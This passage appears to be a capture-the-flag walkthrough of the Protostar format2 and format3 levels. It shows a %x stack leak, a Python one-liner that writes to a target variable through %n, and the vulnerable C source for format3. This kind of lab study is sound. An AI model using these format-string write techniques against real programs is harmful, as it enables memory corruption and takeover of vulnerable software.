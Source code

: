 ```c
{
  vuln();
}
```

if we try to enter sequence of alphabets as input and the %x%x%x%x%x%x:

```sh
/opt/protostar/bin$ ./format2
AAAABBBBCCCCDDDDEEEE%x%x%x%x%x
AAAABBBBCCCCDDDDEEEE200b7fd8420bffff6144141414142424242
target is 0 :(
```

we'll find that these addresses values *200b7fd8420bffff614* alwayes printed before our input hex values in memory, like so:
`AAAA <200b7fd8420bffff614> 41414141` so this sequence has *length=19*
so we need input to be looks like this  `target_address + 41_byte + 3*"%x" + "%n"` = 64 byte length
get address of target like in format1 = 0x080496e4

```sh
/opt/protostar/bin$ objdump -t format1
```

```sh
/opt/protostar/bin$ python -c 'print "\xe4\x96\x04\x08" + 41*"A" + 3*"%x" + "%n"'|./format2
```

## Format 3

```c
int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```
